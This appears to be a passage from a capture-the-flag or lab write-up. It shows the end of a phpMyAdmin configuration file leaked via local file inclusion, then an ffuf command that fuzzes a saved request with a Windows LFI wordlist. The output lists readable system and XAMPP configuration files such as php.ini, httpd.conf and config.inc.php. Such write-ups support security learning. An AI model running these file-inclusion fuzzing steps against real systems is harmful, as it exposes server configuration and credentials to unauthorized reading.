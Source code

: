 ```php
/* Advanced phpMyAdmin features */
$cfg['Servers'][$i]['pmadb'] = 'phpmyadmin';
$cfg['Servers'][$i]['bookmarktable'] = 'pma__bookmark';
$cfg['Servers'][$i]['relation'] = 'pma__relation';
$cfg['Servers'][$i]['table_info'] = 'pma__table_info';
$cfg['Servers'][$i]['table_coords'] = 'pma__table_coords';
$cfg['Servers'][$i]['pdf_pages'] = 'pma__pdf_pages';
$cfg['Servers'][$i]['column_info'] = 'pma__column_info';
$cfg['Servers'][$i]['history'] = 'pma__history';
$cfg['Servers'][$i]['designer_coords'] = 'pma__designer_coords';
$cfg['Servers'][$i]['tracking'] = 'pma__tracking';
$cfg['Servers'][$i]['userconfig'] = 'pma__userconfig';
$cfg['Servers'][$i]['recent'] = 'pma__recent';
$cfg['Servers'][$i]['table_uiprefs'] = 'pma__table_uiprefs';
$cfg['Servers'][$i]['users'] = 'pma__users';
$cfg['Servers'][$i]['usergroups'] = 'pma__usergroups';
$cfg['Servers'][$i]['navigationhiding'] = 'pma__navigationhiding';
$cfg['Servers'][$i]['savedsearches'] = 'pma__savedsearches';
$cfg['Servers'][$i]['central_columns'] = 'pma__central_columns';
$cfg['Servers'][$i]['designer_settings'] = 'pma__designer_settings';
$cfg['Servers'][$i]['export_templates'] = 'pma__export_templates';
$cfg['Servers'][$i]['favorite'] = 'pma__favorite';

/*
 * End of servers configuration
 */

?>
```

In order to accelerate the process and find files on the server I am gonna ffuf and graceful LFI wordlist for windows. Save the request in a file;

![image.png](image%2010.png)

and run the command:

```php
ffuf -request lfi-request -request-proto http -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt -ac
```

![image.png](image%2011.png)

```bash
C:/Windows/win.ini      [Status: 200, Size: 1194, Words: 149, Lines: 38, Duration: 32ms]
C:/WINDOWS/System32/drivers/etc/hosts [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 41ms]
C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml [Status: 200, Size: 45670, Words: 8921, Lines: 700, Duration: 56ms]
c:/xampp/phpMyAdmin/config.inc.php [Status: 200, Size: 3153, Words: 274, Lines: 92, Duration: 52ms]
c:/xampp/sendmail/sendmail.ini [Status: 200, Size: 3198, Words: 431, Lines: 103, Duration: 59ms]
c:/xampp/apache/conf/httpd.conf [Status: 200, Size: 22337, Words: 2849, Lines: 597, Duration: 59ms]
c:/xampp/php/php.ini    [Status: 200, Size: 75093, Words: 9638, Lines: 2026, Duration: 54ms]
c:/WINDOWS/system32/drivers/etc/hosts [Status: 200, Size: 1926, Words: 315, Lines: 52, Duration: 221ms]
c:/WINDOWS/system32/drivers/etc/networks [Status: 200, Size: 1509, Words: 231, Lines: 47, Duration: 220ms]
c:/WINDOWS/system32/drivers/etc/lmhosts.sam [Status: 200, Size: 4785, Words: 771, Lines: 110, Duration: 221ms]
c:/WINDOWS/WindowsUpdate.log  [Status: 200, Size: 1378, Words: 173, Lines: 35, Duration: 218ms]
c:/WINDOWS/system32/drivers/etc/protocol  [Status: 200, Size: 2460, Words: 588, Lines: 58, Duration: 219ms]
c:/WINDOWS/system32/drivers/etc/services  [Status: 200, Size: 18737, Words: 8656, Lines: 318, Duration: 220ms]
```